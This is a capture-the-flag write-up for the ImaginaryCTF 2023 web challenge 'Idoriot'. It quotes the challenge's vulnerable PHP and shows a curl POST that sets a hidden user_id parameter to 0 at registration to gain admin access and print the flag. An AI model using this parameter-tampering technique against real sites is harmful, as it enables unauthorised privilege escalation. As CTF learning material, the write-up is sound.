 ```yaml
---
title: ImaginaryCTF 2023 - Idoriot
description: Writeup for Idoriot web challenge
date: 2023-12-18
tldr: Some idiot made this web site that you can log in to. The idiot even made it in php. I dunno.
draft: false
tags: ["ctf", "writeup", "web"]
---
```


# Idoriot 

Some idiot made this web site that you can log in to. The idiot even made it in php. I dunno.


```
Welcome, User ID: 4685491
Source Code
<?php

session_start();

// Check if user is logged in
if (!isset($_SESSION['user_id'])) {
    header("Location: login.php");
    exit();
}

// Check if session is expired
if (time() > $_SESSION['expires']) {
    header("Location: logout.php");
    exit();
}

// Display user ID on landing page
echo "Welcome, User ID: " . urlencode($_SESSION['user_id']);

// Get the user for admin
$db = new PDO('sqlite:memory:');
$admin = $db->query('SELECT * FROM users WHERE user_id = 0 LIMIT 1')->fetch();

// Check if the user is admin
if ($admin['user_id'] === $_SESSION['user_id']) {
    // Read the flag from flag.txt
    $flag = file_get_contents('flag.txt');
    echo "<h1>Flag</h1>";
    echo "<p>$flag</p>";
} else {
    // Display the source code for this file
    echo "<h1>Source Code</h1>";
    highlight_file(__FILE__);
}

?>
```

Inspecting the `registration.php` we see that `user_id` is pregenerated frontend side? wtf we just want to be `user_id=0` and we are good to go so 

```
curl -X POST -d 'username=hovno&password=hovno&user_id=0' http://idoriot.chal.imaginaryctf.org/register.php
```

login with `hovno:hovno` and get the flag

```
Welcome, User ID: 0
Flag
ictf{1ns3cure_direct_object_reference_from_hidden_post_param_i_guess}
```
